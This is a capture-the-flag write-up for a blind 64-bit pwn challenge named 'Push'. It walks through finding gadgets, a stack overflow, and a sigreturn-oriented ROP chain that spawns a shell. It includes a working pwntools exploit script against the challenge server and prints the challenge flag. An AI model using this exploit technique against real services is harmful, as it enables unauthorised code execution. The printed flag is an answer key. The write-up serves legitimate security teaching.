 # Push Writeup

Remember those Sarah McLaughlan commercials about the puppies? We do. We made a blind challenge to remind you about the heartbreak.

0.cloud.chals.io:21978

Author: v10l3nt

## Overview

Upon connecting to the server, we get prompted by this:

![](./img/initial_prompt.png)

If we ask for more pushes, we get what seems to be push statements and a return, followed by what seems to be an address pointing to that instruction.

![](./img/all_addrs.png)

From the address length, I think it is safe to assume this is a 64 bit system. These instructions seem to be constant between runs while the address of them are not. There seems to be recurring values in these instructions: 0x0f05 and 0x58. Upon looking up these values, it seems as if 0x58 is equivalent to the `pop rax; ret` instruction whereas 0x0f05 are the opcodes for the `syscall` instruction. This isn't much to work with, but from what we're given, it seems as if the intended path from here is to cause a sigreturn!

A sigreturn is a syscall that makes the program pull bytes off of the stack and put them into EVERY register. If we control what gets put onto the stack, then we get to control every register! Since it seems we have arbitrary write because we don't get any warning about a size limit, we can write anything we want to the stack and, in turn, set every register to what we want!

## Planning

Since we are given a `/bin/sh` string address and we have a syscall instruction with a `pop rax` gadget, the easiest solution would be to call `execve` via syscall number 59 and pass the `/bin/sh` address into `rdi`.

## Execution

Now we have to figure out how to use these addresses. If I just wanted a `syscall; ret` ROP gadget, I would ideally want `0x0f 0x05 ret`. This can be found 2 bytes into the second instruction we are given (`push 0x0f050f05; ret`). To access this, we would have to return to the given addess + 2 to ignore the prior 0x0f 0x05 bytes. We have the same deal with the `pop rax; ret` gadget. With the first instruction we're given (`push 0x58585858; ret`), we can just ignore the first 3 0x58 bytes and just continue from the last 0x58 byte, giving us `0x58; ret`, which is just `pop rax; ret`!

Now that we have 2 gadgets, we can now focus on the sigreturn part. To cause a sigreturn, we need to put `0xf` into the `rax` register and then call `syscall`. Since we concluded this was a 64 bit system earlier, each address/register is 8 bytes. The next problem to solve is the amount of padding we need. To figure this out, I went ahead and put in inputs of increasing length to figure out when the program crashed. This would probably be the end of the base pointer. Here, we found out the length is 16, so there's probably a buffer of length 8 and then the base pointer immediately afterwards.

![](./img/buffer_fuzzing.png)

Since we know the bounds of the buffer, we can now attempt to blindly call the sigreturn.

From my pwn experience, we usually need to overwrite `rbp` after the buffer, which would be 8 bytes. 

Next, we have the `rip` register. This is where we will start the ROP chain. First, we need to call `pop rax; ret`. We'll add our offset address to the payload. Next, we need to pop 0xf into the `rax` register, so we'll put that on the stack next. Right after, we need to call `syscall`. We can add our address we got earlier to the chain, and that should be it!

Now I think it is important to note that we don't have any definitive proof that the sigreturn went off successfully, which is very unfortunate. Let's just continue as if we have it all working.

Now that a supposed sigreturn has been called, we need to create a sigreturn frame to push onto the stack after the `syscall` gadget to set all the registers to what we want. The goal is to call `execve('/bin/sh')`, so we need `syscall` in the `rip` register so it gets called next, `0x3b` in the `rax` register to use the `execve` syscall, the `/bin/sh` string in `rdi` (the first argument of the call) to spawn the shell, and zeroes in the rest of the registers. Luckily, pwntools has a very nice way to create sigreturn frames, so this won't be too much of an issue.

```python
from pwn import *

context.arch = "amd64"

p = remote("0.cloud.chals.io", 21978)

p.recvuntil(b": ")

tmp = p.recvline().decode()
print(tmp)
BIN_SH = int(tmp.strip()[2:], 16)
print(f"/bin/sh: {hex(BIN_SH)}")

p.recvline()

p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 3
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 2
print(f"Syscall instruction: {hex(SYSCALL)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
p.recvuntil(b">>> ")

# Get 0xa into RAX to cause a Sigreturn
payload = b"A"*8
payload += b"B"*8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rsi = 0
frame.rdi = BIN_SH
frame.rip = SYSCALL

payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Once we have the frame situated, we are ready to test it out! We can append the frame to the end of our previous payload and send it along with it. This is the result:

![](./img/no_shell.png)

Huh, we didn't get a shell... :/

Now time for the tweaking. There are a few places where we aren't 100% confident. We made the assumption that the address given with each instruction pointed to the start of the instruction. However, this could very well NOT be the case. To try and see if this is the underlying issue, lets just go ahead and add offsets to each address manually and test it out. One of the offset combinations resulted in a shell being popped!

```python
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 6
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 4
print(f"Syscall instruction: {hex(SYSCALL)}")
```
![](./img/shell.png)

It seems as if the working combination of offsets were 2 times what we had arrived as earlier, which is very strange. I'm not entirely sure why this was the case for this problem. Regardless, now we can go ahead and read the flag!

![](./img/flag.png)

Flag: `uscg{ch4ng3_and_gr0wth_is_s0_pa1nful}`
